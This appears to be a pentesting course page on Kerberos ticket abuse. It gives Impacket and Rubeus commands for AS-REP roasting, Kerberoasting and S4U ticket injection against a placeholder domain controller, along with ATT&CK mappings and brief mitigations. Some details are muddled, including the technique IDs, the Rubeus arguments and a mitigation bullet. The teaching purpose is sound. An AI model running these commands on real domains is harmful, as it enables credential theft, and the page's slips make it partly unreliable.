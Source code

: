 ```yaml
---
layout: post
title: "6.5 Kerberoasting & Ticket Theft"
date: 2025-06-13
permalink: /modules/6/kerberoasting/
excerpt: >
  Uncover Kerberos ticket abuse (T1558.003): perform AS-REP roasting, TGS extraction, S4U2self attacks, and map ticket artifacts to ATT&CK Kerberos Credential Access techniques.
header:
  overlay_image: /assets/images/kerberoasting-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Stealing service tickets is like picking locks—you walk in with valid credentials.”  
> — AD Pentesting Lead

## 1 • Technique Overview (T1558 Family)

| Sub-Technique                         | ATT&CK ID        | Description                          |
|---------------------------------------|------------------|--------------------------------------|
| Kerberoasting                         | T1558.003        | Request service tickets to crack offline |
| AS-REP Roasting                       | T1558.001        | Request AS-REP without pre-auth to crack |
| S4U2self / S4U2proxy                  | T1558.003        | Service-for-User delegation abuses   |

## 2 • AS-REP Roasting (T1558.001)

- **Prerequisite:** User account without pre-auth requirement.  
- **Extraction (Impacket):**  
```bash
  GetNPUsers.py -dc-ip 192.0.2.1 domain.local/ -request 
  ```
- **Artifact:**  
  - `hash`: `$krb5asrep$23$...` entries in output for offline cracking.

## 3 • Kerberoasting (T1558.003)

- **Extraction (Impacket):**  
```bash
  GetUserSPNs.py -dc-ip 192.0.2.1 domain.local/ -request 
  ```
- **Artifact:**  
  - `hash`: `$krb5tgs$23$...` entries you can export to John/Kerberoast.

## 4 • S4U2Self & S4U2Proxy

- **Technique:** Obtain service tickets on behalf of a user.  
- **Extraction (Rubeus):**  
  ```powershell
  Rubeus.exe s4u /user:targetUser /rc4:NTLMHash /impersonateuser:svcAccount /ptt
  ```
- **Mapping:**  
  - Tickets injected via `klist` display and memory.

## 5 • Mapping & Timeline

| Timestamp           | Technique ID   | Details                            |
|---------------------|----------------|------------------------------------|
| 2025-06-13T09:00Z   | T1558.001      | AS-REP hash retrieved              |
| 2025-06-13T09:05Z   | T1558.003      | TGS ticket roast obtained          |

## 6 • Mitigation & Detection

- **Enforce Aes256-Only:** require pre-auth for all accounts.  
- **Monitor Ticket Requests:** alert high volume of TGS requests via SIEM.  
- **Golden Ticket Hardening:** rotate KRBTGT account regularly.

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://attack.mitre.org/techniques/T1558/" target="_blank">ATT&CK T1558 Kerberos Abuse</a></li>
    <li><a href="https://github.com/SecureAuthCorp/impacket" target="_blank">Impacket GetNPUsers/GetUserSPNs</a></li>
    <li><a href="https://github.com/GhostPack/Rubeus" target="_blank">Rubeus Kerberos Toolkit</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/6/pass-the-hash/" class="next-link">6.6 Pass-the-Hash & Alternate Material →</a>
